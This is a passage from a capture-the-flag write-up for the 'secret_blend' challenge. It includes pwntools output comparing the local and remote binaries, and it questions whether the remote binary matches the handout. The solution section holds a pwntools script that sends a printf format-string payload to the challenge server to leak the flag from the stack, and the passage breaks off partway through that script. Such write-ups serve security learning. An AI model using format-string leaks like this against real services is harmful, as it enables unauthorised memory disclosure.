 ```python
    p.readuntil(b"\r\n\r\n")
    print(p.readline())
```

As you can see here they are not:

```bash
[+] Starting local process '/home/user/ctf/the_secret_blend/secret_blend': pid 8695
b'\x7fELF\x01\x01\x01|||\n'
[*] Process '/home/user/ctf/the_secret_blend/secret_blend' stopped with exit code 0 (pid 8695)
[+] Opening connection to chals1.apoorvctf.xyz on port 3003: Done
b'LM\xbb\xc2\xff\x7f|||\r\n'
[*] Closed connection to chals1.apoorvctf.xyz port 300
```

Not only does it not match but this region appears to contain changing values suggesting its used for a writable mapping:

```bash
[+] Starting local process '/home/user/ctf/the_secret_blend/secret_blend': pid 9665
b'\x7fELF\x01\x01\x01|||\n'
[*] Process '/home/user/ctf/the_secret_blend/secret_blend' stopped with exit code 0 (pid 9665)
[+] Opening connection to chals1.apoorvctf.xyz on port 3003: Done
b'M\r*\x0c\xfd\x7f|||\r\n'
[*] Closed connection to chals1.apoorvctf.xyz port 3003
```

Note: I may have made a mistake here - although if the binaries really are the same reading memory that contains the ELF header should work at the same offset on the stack right? - If so please let me know what I did wrong so I can correct it and learn more!

Here are the SHA-2-256 hashes for the files provided:

```bash
51313f4a0d4c962196d9c1903ea818266ef16a00ca143e7bc10c284bc94046fa  files.zip
e5896e1f6090ca03ab3739c3bba4124c11b3965ed735d9a36b162d2a66abccc0  secret_blend
```

I contact the admins to let them know that I thought there might be a difference between the binary in the handout and the one on the remote and they assured me that the "Dockerfile copies from local" and that "I assure you local file hasnt[sic] changed".

Again if there is an explanation for this that allows for the binary to match the one in the handout I would like to know it is so please do let me know!

## Solution

1) Read the flag from the stack using our control of the `printf` format string

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./secret_blend", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chals1.apoorvctf.xyz", 3003)

p.readuntil(b"have?\'\r\n")

p.send(b"%6$p.%7$p.%8$p.%9$p.%10$p.%11$p\r\n")

# not required locally
p.readuntil(b"\r\n") 
p.readuntil(b"\r\n")
```
